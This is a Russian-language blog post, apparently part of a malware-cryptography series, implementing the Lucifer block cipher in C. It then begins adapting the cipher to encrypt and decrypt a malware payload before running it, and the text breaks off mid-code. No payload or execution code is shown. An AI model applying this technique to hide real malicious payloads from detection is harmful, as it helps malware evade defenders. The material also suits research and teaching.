







\newpage
\subsection{96. исследование вредоносного ПО и криптографии - часть 5 (33): Шифрование полезной нагрузки с помощью алгоритма Lucifer. Простой пример на C.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

Привет, энтузиасты кибербезопасности и белые хакеры!        

{width="80%"}     

Этот пост является результатом моего собственного исследования использования блочного шифра *Lucifer* в разработке вредоносного ПО. Как обычно, исследуя различные криптоалгоритмы, я решил проверить, что будет, если использовать этот метод для шифрования/дешифрования полезной нагрузки.    

### Сети Фейстеля

По просьбе моих читателей, я хотел бы напомнить, что такое сеть Фейстеля. Это очень важное понятие, которое играет жизненно важную роль в современной криптографии и системах шифрования.    

Сеть Фейстеля - это метод блочного шифрования, созданный Хорстом Фейстелем в лаборатории IBM в 1971 году.    

Сеть Фейстеля представляет собой блочный шифр, который обрабатывает данные, разделяя каждый блок на две равные части: левый $(L)$ и правый $(R)$ подблоки.  
Левый подблок преобразуется с помощью функции: $$x = f(L,K)$$ где $K$ представляет ключ. Эта функция может быть любой криптографической операцией, например, шифром сдвига.     
Преобразованный левый подблок затем *XOR*'ится с неизмененным правым подблоком: $x = x \oplus R$.    
После этого левый и правый подблоки меняются местами, и процесс повторяется несколько раз.     
Таким образом, конечным результатом является зашифрованные данные.      

### Lucifer

**Lucifer** - один из первых блочных шифров, созданных в 1970-х годах Хорстом Фейстелем в IBM. Это шифр с симметричным ключом, который работает с `128-bit` блоками и использует сеть Фейстеля, послужившую основой для более известного `Data Encryption Standard (DES)`. 

В шифровании Lucifer открытый текст делится на два сегмента, один из которых подвергается преобразованию, а результат *XOR*'ится с другим сегментом. Этот процесс повторяется несколько раз с использованием *S-box*-ов, перестановок и расписания ключей для обеспечения безопасности.       

*S-box*-ы Lucifer принимают `4`-битные входные значения и выдают `4`-битные выходные; вход в *S-box*-ы формируется из битов, переставленных на основе выхода *S-box*-ов из предыдущего раунда, а вход для *S-box*-ов в первом раунде является открытым текстом. Один бит выбора используется для выбора конкретного *S-box*-а из двух доступных. 
Lucifer представлен в виде единого *T-box*-а с `9` входными битами и `8` выходными битами. В отличие от DES, нет чередования между раундами, и половинки блока не используются. Lucifer использует `16` раундов, `128`-битные блоки и менее сложное расписание ключей, чем у `DES`.      

### практический пример 1

Давайте реализуем это на практике. Прежде всего, нам нужно определить вспомогательные функции, константы и макросы:     

```cpp
#define block_size 16 // 128 bit
#define key_size 16   // 128 bit

static const unsigned char s0[16] = {
  0x0C, 0x0F, 0x07, 0x0A, 0x0E, 0x0D, 0x0B, 0x00,
  0x02, 0x06, 0x03, 0x01, 0x09, 0x04, 0x05, 0x08
};

static const unsigned char s1[16] = {
  0x07, 0x02, 0x0E, 0x09, 0x03, 0x0B, 0x00, 0x04,
  0x0C, 0x0D, 0x01, 0x0A, 0x06, 0x0F, 0x08, 0x05
};

static const unsigned char m1[8] = {
  0x80, 0x40, 0x20, 0x10, 0x08, 0x04, 0x02, 0x01
};

static const unsigned char m2[8] = {
  0x7F, 0xBF, 0xDF, 0xEF, 0xF7, 0xFB, 0xFD, 0xFE
};

// macro to perform bitwise shifts
#define shift_left(x, n) ((x) << (n))
#define shift_right(x, n) ((unsigned char)(x) >> (n))

// extract high and low nibbles
#define highsubbyte(x) shift_right((x), 4)
#define lowsubbyte(x) ((x) & 0x0F)

// swap function for char types
void swap(char* arg1, char* arg2) {
  char tmp = *arg1;
  *arg1 = *arg2;
  *arg2 = tmp;
}
```

Затем нам нужна основная функция шифрования.
Позвольте мне показать пошаговое объяснение нашей функции шифрования Lucifer.

Функция принимает `128-bit` блок (`16`-байт) и ключ в качестве входных данных. Блок делится на две равные половины: `lower_half` (первые 8 байт) и `upper_half` (последние 8 байт):
```cpp
char* lower_half = block;
char* upper_half = block + block_size / 2;
```

При расшифровке начальный индекс байта ключа устанавливается равным `8`, в противном случае он начинается с `0`. Всего во время шифрования или расшифровки выполняется `16` раундов:

```cpp
int key_byte_idx = decrypt ? 8 : 0;
const int round_count = 16;
```

Мы начинаем цикл для `16` раундов преобразований. При расшифровке индекс ключа увеличивается на `1` после каждого раунда и возвращается к циклу (с использованием модуля) после достижения `16`:

```cpp
for (int round = 0; round < round_count; ++round) {
  if (decrypt) {
    key_byte_idx = (key_byte_idx + 1) % round_count;
  }
```

В каждом раунде мы обрабатываем `8`-шагов (по одному для каждого байта в `upper_half`). Здесь `message_byte` - это байт из `upper_half`, который мы обрабатываем на этом шаге:

```cpp
for (int step = 0; step < 8; ++step) {
char message_byte = upper_half[step];
```

Этот блок применяет шаг путаницы (или шаг запутывания). На основе ключевого байта и шага мы решаем, использовать ли блоки подстановки `s0` или `s1` для изменения `message_byte`. Это похоже на то, что происходит в сетях Фейстеля с `S-boxes`:

```cpp
if (key[transform_control_byte_idx] & m1[step_count - step - 1]) {
  message_byte = shift_left(s1[highsubbyte(message_byte)], 4) | s0[lowsubbyte
  (message_byte)];
} else {
  message_byte = shift_left(s0[highsubbyte(message_byte)], 4) | s1[lowsubbyte
  (message_byte)];
}
```

Затем логика прерывания ключа:

```cpp
message_byte ^= key[key_byte_idx];
```

Здесь преобразованный байт подвергается операции `XOR` с байтом ключа. Это вносит дополнительную сложность в шифрование и гарантирует, что каждый байт сообщения находится под влиянием ключа.

Следующий шаг - шаг перестановки, на котором биты в `message_byte` сдвигаются влево или вправо на основе предопределенных масок (`m1`). Этот шаг скремблирует биты для дальнейшего распространения влияния каждого бита по всему байту:

```cpp
message_byte = (shift_right(message_byte & m1[0], 3)) |
               (shift_right(message_byte & m1[1], 4)) |
               (shift_left(message_byte & m1[2], 2)) |
               (shift_right(message_byte & m1[3], 1)) |
               (shift_left(message_byte & m1[4], 2)) |
               (shift_left(message_byte & m1[5], 4)) |
               (shift_right(message_byte & m1[6], 1)) |
               (shift_left(message_byte & m1[7], 1));
```

Результирующий `message_byte` подвергается `XOR` с различными битами `lower_half`. Это распределяет изменения по `lower_half`, гарантируя, что обе половины блока влияют друг на друга по мере продвижения раундов:   

```cpp
lower_half[(7 + step) % step_count] = 
((message_byte ^ lower_half[(7 + step) % step_count]) & 
m1[0]) | (lower_half[(7 + step) % step_count] & m2[0]);
// repeat similar logic for other bits...
```

Затем мы увеличиваем `key_byte_idx`, чтобы гарантировать, что для следующего шага используется другой ключевой байт. Если мы не расшифровываем, это происходит для всех шагов, кроме последнего:     

```cpp
if (step < step_count - 1 || decrypt) {
  key_byte_idx = (key_byte_idx + 1) % round_count;
}
```

В конце каждого раунда `lower_half` и `upper_half` меняются местами. Это ключевая часть дизайна сети Фейстеля, гарантирующая, что обе половины блока будут обработаны в следующем раунде:     

```cpp
for (int i = 0; i < block_size / 2; ++i) {
  swap(&lower_half[i], &upper_half[i]);
}
```

После завершения всех раундов половинки снова меняются местами, чтобы завершить процесс шифрования. Это гарантирует, что окончательный зашифрованный блок соответствует дизайну Фейстеля:     

```cpp
for (int i = 0; i < block_size / 2; ++i) {
  swap(&block[i], &block[i + block_size / 2]);
}
```

Полный исходный код этой функции выглядит так:    

```cpp
void Lucifer(char block[block_size], char key[key_size], bool decrypt) {
  char* lower_half = block;
  char* upper_half = block + block_size / 2;
  
  int key_byte_idx = decrypt ? 8 : 0;
  const int round_count = 16;
  
  for (int round = 0; round < round_count; ++round) {
    if (decrypt) {
      key_byte_idx = (key_byte_idx + 1) % round_count;
    }
    
    int transform_control_byte_idx = key_byte_idx;
    const int step_count = 8;
    
    for (int step = 0; step < step_count; ++step) {
      char message_byte = upper_half[step];
      
      // confusion
      if (key[transform_control_byte_idx] & m1[step_count - step - 1]) {
        message_byte = shift_left(s1[highsubbyte(message_byte)], 4) | s0
        [lowsubbyte(message_byte)];
      } else {
        message_byte = shift_left(s0[highsubbyte(message_byte)], 4) | s1
        [lowsubbyte(message_byte)];
      }
      
      // key interruption
      message_byte ^= key[key_byte_idx];
      
      // permutation
      message_byte = (shift_right(message_byte & m1[0], 3)) |
               (shift_right(message_byte & m1[1], 4)) |
               (shift_left(message_byte & m1[2], 2)) |
               (shift_right(message_byte & m1[3], 1)) |
               (shift_left(message_byte & m1[4], 2)) |
               (shift_left(message_byte & m1[5], 4)) |
               (shift_right(message_byte & m1[6], 1)) |
               (shift_left(message_byte & m1[7], 1));
      
      // diffusion
      lower_half[(7 + step) % step_count] = ((message_byte ^ lower_half[(7 + 
      step) % step_count]) & m1[0]) | (lower_half[(7 + step) % step_count] & 
      m2[0]);
      lower_half[(6 + step) % step_count] = ((message_byte ^ lower_half[(6 + 
      step) % step_count]) & m1[1]) | (lower_half[(6 + step) % step_count] & 
      m2[1]);
      lower_half[(2 + step) % step_count] = ((message_byte ^ lower_half[(2 + 
      step) % step_count]) & m1[2]) | (lower_half[(2 + step) % step_count] & 
      m2[2]);
      lower_half[(1 + step) % step_count] = ((message_byte ^ lower_half[(1 + 
      step) % step_count]) & m1[3]) | (lower_half[(1 + step) % step_count] & 
      m2[3]);
      lower_half[(5 + step) % step_count] = ((message_byte ^ lower_half[(5 + 
      step) % step_count]) & m1[4]) | (lower_half[(5 + step) % step_count] & 
      m2[4]);
      lower_half[(0 + step) % step_count] = ((message_byte ^ lower_half[(0 + 
      step) % step_count]) & m1[5]) | (lower_half[(0 + step) % step_count] & 
      m2[5]);
      lower_half[(3 + step) % step_count] = ((message_byte ^ lower_half[(3 + 
      step) % step_count]) & m1[6]) | (lower_half[(3 + step) % step_count] & 
      m2[6]);
      lower_half[(4 + step) % step_count] = ((message_byte ^ lower_half[(4 + 
      step) % step_count]) & m1[7]) | (lower_half[(4 + step) % step_count] & 
      m2[7]);
      
      if (step < step_count - 1 || decrypt) {
        key_byte_idx = (key_byte_idx + 1) % round_count;
      }
    }
    
    // swap halves
    for (int i = 0; i < block_size / 2; ++i) {
      swap(&lower_half[i], &upper_half[i]);
    }
  }
  
  // physically swap halves
  for (int i = 0; i < block_size / 2; ++i) {
    swap(&block[i], &block[i + block_size / 2]);
  }
}
```

Итак, функция обрабатывает `128-bit` блок, используя `16` раундов путаницы, диффузии и перестановки.   
Каждый раунд включает в себя изменение байтов из `upper_half` и распространение изменений в `lower_half`.   
Ключ используется для управления подстановкой `S-box` и операциями `XOR` на каждом шаге.   
Половины блока меняются местами после каждого раунда, следуя схеме сети Фейстеля.   

И, наконец, полный исходный код того, как мы можем зашифровать блок открытого текста, выглядит следующим образом (`hack.c`):     

```cpp
/*
 * hack.c
 * Lucifer encryption example
 * author: @cocomelonc
 * https://cocomelonc.github.io/malware/2024/10/20/malware-cryptography-33.html
 */
#include <stdio.h>
#include <stdbool.h>
#include <string.h>

#define block_size 16 // 128 bit
#define key_size 16   // 128 bit

static const unsigned char s0[16] = {
  0x0C, 0x0F, 0x07, 0x0A, 0x0E, 0x0D, 0x0B, 0x00,
  0x02, 0x06, 0x03, 0x01, 0x09, 0x04, 0x05, 0x08
};

static const unsigned char s1[16] = {
  0x07, 0x02, 0x0E, 0x09, 0x03, 0x0B, 0x00, 0x04,
  0x0C, 0x0D, 0x01, 0x0A, 0x06, 0x0F, 0x08, 0x05
};

static const unsigned char m1[8] = {
  0x80, 0x40, 0x20, 0x10, 0x08, 0x04, 0x02, 0x01
};

static const unsigned char m2[8] = {
  0x7F, 0xBF, 0xDF, 0xEF, 0xF7, 0xFB, 0xFD, 0xFE
};

// macro to perform bitwise shifts
#define shift_left(x, n) ((x) << (n))
#define shift_right(x, n) ((unsigned char)(x) >> (n))

// extract high and low nibbles
#define highsubbyte(x) shift_right((x), 4)
#define lowsubbyte(x) ((x) & 0x0F)

// swap function for char types
void swap(char* arg1, char* arg2) {
  char tmp = *arg1;
  *arg1 = *arg2;
  *arg2 = tmp;
}

void Lucifer(char block[block_size], char key[key_size], bool decrypt) {
  char* lower_half = block;
  char* upper_half = block + block_size / 2;
  
  int key_byte_idx = decrypt ? 8 : 0;
  const int round_count = 16;
  
  for (int round = 0; round < round_count; ++round) {
    if (decrypt) {
      key_byte_idx = (key_byte_idx + 1) % round_count;
    }
    
    int transform_control_byte_idx = key_byte_idx;
    const int step_count = 8;
    
    for (int step = 0; step < step_count; ++step) {
      char message_byte = upper_half[step];
      
      // confusion
      if (key[transform_control_byte_idx] & m1[step_count - step - 1]) {
        message_byte = shift_left(s1[highsubbyte(message_byte)], 4) | s0
        [lowsubbyte(message_byte)];
      } else {
        message_byte = shift_left(s0[highsubbyte(message_byte)], 4) | s1
        [lowsubbyte(message_byte)];
      }
      
      // key interruption
      message_byte ^= key[key_byte_idx];
      
      // permutation
      message_byte = (shift_right(message_byte & m1[0], 3)) |
               (shift_right(message_byte & m1[1], 4)) |
               (shift_left(message_byte & m1[2], 2)) |
               (shift_right(message_byte & m1[3], 1)) |
               (shift_left(message_byte & m1[4], 2)) |
               (shift_left(message_byte & m1[5], 4)) |
               (shift_right(message_byte & m1[6], 1)) |
               (shift_left(message_byte & m1[7], 1));
      
      // diffusion
      lower_half[(7 + step) % step_count] = ((message_byte ^ lower_half[(7 + 
      step) % step_count]) & m1[0]) | (lower_half[(7 + step) % step_count] & 
      m2[0]);
      lower_half[(6 + step) % step_count] = ((message_byte ^ lower_half[(6 + 
      step) % step_count]) & m1[1]) | (lower_half[(6 + step) % step_count] & 
      m2[1]);
      lower_half[(2 + step) % step_count] = ((message_byte ^ lower_half[(2 + 
      step) % step_count]) & m1[2]) | (lower_half[(2 + step) % step_count] & 
      m2[2]);
      lower_half[(1 + step) % step_count] = ((message_byte ^ lower_half[(1 + 
      step) % step_count]) & m1[3]) | (lower_half[(1 + step) % step_count] & 
      m2[3]);
      lower_half[(5 + step) % step_count] = ((message_byte ^ lower_half[(5 + 
      step) % step_count]) & m1[4]) | (lower_half[(5 + step) % step_count] & 
      m2[4]);
      lower_half[(0 + step) % step_count] = ((message_byte ^ lower_half[(0 + 
      step) % step_count]) & m1[5]) | (lower_half[(0 + step) % step_count] & 
      m2[5]);
      lower_half[(3 + step) % step_count] = ((message_byte ^ lower_half[(3 + 
      step) % step_count]) & m1[6]) | (lower_half[(3 + step) % step_count] & 
      m2[6]);
      lower_half[(4 + step) % step_count] = ((message_byte ^ lower_half[(4 + 
      step) % step_count]) & m1[7]) | (lower_half[(4 + step) % step_count] & 
      m2[7]);
      
      if (step < step_count - 1 || decrypt) {
        key_byte_idx = (key_byte_idx + 1) % round_count;
      }
    }
    
    // swap halves
    for (int i = 0; i < block_size / 2; ++i) {
      swap(&lower_half[i], &upper_half[i]);
    }
  }
  
  // physically swap halves
  for (int i = 0; i < block_size / 2; ++i) {
    swap(&block[i], &block[i + block_size / 2]);
  }
}

int main() {
  char message[block_size + 1] = "meowmeowmeowmeow";  // 16 characters + null 
  // terminator
  char key[key_size] = "abcdefghijklmnop";      // example 128-bit key

  message[block_size] = '\0';  // add a null terminator at the end of the 
  // message

  printf("original block: %s\n", message);

  Lucifer(message, key, false);  // encrypt
  printf("encrypted block: ");
  for (int i = 0; i < block_size; i++) {
    printf("%02x ", (unsigned char)message[i]);
  }
  printf("\n");

  Lucifer(message, key, true);  // decrypt
  printf("decrypted block: %s\n", message);

  return 0;
}
```

Как вы можете видеть, в основной функции я просто зашифровал сообщение `meowmeowmeowmeow`.

### demo 1

Давайте посмотрим, как работает этот код. Скомпилируем его для Linux:

```bash
gcc hack.c -o hack
```

{width="80%"}

Затем запустим его:

```bash
./hack
```

{width="80%"}

Как вы можете видеть, в этом случае все работает отлично.

### практический пример 2

Давайте реализуем его с другой логикой: зашифруем/расшифруем полезную нагрузку и запустим ее.

Исходный код для этого такой же, как в первом примере, единственным отличием являются две новые функции:

```cpp
// payload encryption function
void lucifer_encrypt_payload(unsigned char* payload, int payload_len, 
unsigned char* key) {
  for (int i = 0; i < payload_len / block_size; i++) {
    Lucifer((char*)(payload + i * block_size), (char*)key, false);
  }
}

// payload decryption function
void lucifer_decrypt_payload(unsigned char* payload, int payload_len, 
unsigned char* key) {
  for (int i = 0; i < payload_len / block_size; i++) {
    Lucifer((char*)(payload + i * block_size), (char*)key, true);
  }
}
```

Эта версия кода правильно реализует шифр Lucifer, используя функцию из `hack.c`, применяя процесс шифрования и дешифрования к блокам полезной нагрузки. Функция `Lucifer` интегрирована в `lucifer_encrypt_payload` и `lucifer_decrypt_payload`, обеспечивая правильный поток шифрования.   

Таким образом, полный исходный код выглядит так (`hack2.c`):   

```cpp
/*
 * hack.c
 * Lucifer payload encryption/decryption
 * author: @cocomelonc
 * https://cocomelonc.github.io/malware/2024/10/20/malware-cryptography-33.html
 */
#include <stdio.h>
#include <stdbool.h>
#include <string.h>
#include <windows.h>

#define block_size 16 // 128 bit
#define key_size 16   // 128 bit

static const unsigned char s0[16] = {
  0x0C, 0x0F, 0x07, 0x0A, 0x0E, 0x0D, 0x0B, 0x00,
  0x02, 0x06, 0x03, 0x01, 0x09, 0x04, 0x05, 0x08
};

static const unsigned char s1[16] = {
  0x07, 0x02, 0x0E, 0x09, 0x03, 0x0B, 0x00, 0x04,
  0x0C, 0x0D, 0x01, 0x0A, 0x06, 0x0F, 0x08, 0x05
};

static const unsigned char m1[8] = {
  0x80, 0x40, 0x20, 0x10, 0x08, 0x04, 0x02, 0x01
};

static const unsigned char m2[8] = {
  0x7F, 0xBF, 0xDF, 0xEF, 0xF7, 0xFB, 0xFD, 0xFE
};

#define shift_left(x, n) ((x) << (n))
#define shift_right(x, n) ((unsigned char)(x) >> (n))
#define highsubbyte(x) shift_right((x), 4)
#define lowsubbyte(x) ((x) & 0x0F)

void swap(char* arg1, char* arg2) {
  char tmp = *arg1;
  *arg1 = *arg2;
  *arg2 = tmp;
}

void Lucifer(char block[block_size], char key[key_size], bool decrypt) {
  char* lower_half = block;
  char* upper_half = block + block_size / 2;

  int key_byte_idx = decrypt ? 8 : 0;
  const int round_count = 16;

  for (int round = 0; round < round_count; ++round) {
    if (decrypt) {
      key_byte_idx = (key_byte_idx + 1) % round_count;
    }

    int transform_control_byte_idx = key_byte_idx;
    const int step_count = 8;

    for (int step = 0; step < step_count; ++step) {
      char message_byte = upper_half[step];

      // confusion
      if (key[transform_control_byte_idx] & m1[step_count - step - 1]) {
        message_byte = shift_left(s1[highsubbyte(message_byte)], 4) | s0
        [lowsubbyte(message_byte)];
      } else {
        message_byte = shift_left(s0[highsubbyte(message_byte)], 4) | s1
        [lowsubbyte(message_byte)];
      }

      // key interruption
      message_byte ^= key[key_byte_idx];

      // permutation
      message_byte = (shift_right(message_byte & m1[0], 3)) |
               (shift_right(message_byte & m1[1], 4)) |
               (shift_left(message_byte & m1[2], 2)) |
               (shift_right(message_byte & m1[3], 1)) |
               (shift_left(message_byte & m1[4], 2)) |
               (shift_left(message_byte & m1[5], 4)) |
               (shift_right(message_byte & m1[6], 1)) |
               (shift_left(message_byte & m1[7], 1));

      // diffusion
      lower_half[(7 + step) % step_count] = ((message_byte ^ lower_half[(7 + 
      step) % step_count]) & m1[0]) | (lower_half[(7 + step) % step_count] & 
      m2[0]);
      lower_half[(6 + step) % step_count] = ((message_byte ^ lower_half[(6 + 
      step) % step_count]) & m1[1]) | (lower_half[(6 + step) % step_count] & 
      m2[1]);
      lower_half[(2 + step) % step_count] = ((message_byte ^ lower_half[(2 + 
      step) % step_count]) & m1[2]) | (lower_half[(2 + step) % step_count] & 
      m2[2]);
      lower_half[(1 + step) % step_count] = ((message_byte ^ lower_half[(1 + 
      step) % step_count]) & m1[3]) | (lower_half[(1 + step) % step_count] & 
      m2[3]);
      lower_half[(5 + step) % step_count] = ((message_byte ^ lower_half[(5 + 
      step) % step_count]) & m1[4]) | (lower_half[(5 + step) % step_count] & 
      m2[4]);
      lower_half[(0 + step) % step_count] = ((message_byte ^ lower_half[(0 + 
      step) % step_count]) & m1[5]) | (lower_half[(0 + step) % step_count] & 
      m2[5]);
      lower_half[(3 + step) % step_count] = ((message_byte ^ lower_half[(3 + 
      step) % step_count]) & m1[6]) | (lower_half[(3 + step) % step_count] & 
      m2[6]);
      lower_half[(4 + step) % step_count] = ((message_byte ^ lower_half[(4 + 
      step) % step_count]) & m1[7]) | (lower_half[(4 + step) % step_count] & 
      m2[7]);

      if (step < step_count - 1 || decrypt) {
        key_byte_idx = (key_byte_idx + 1) % round_count;
      }
    }

    // swap halves
    for (int i = 0; i < block_size / 2; ++i) {
      swap(&lower_half[i], &upper_half[i]);
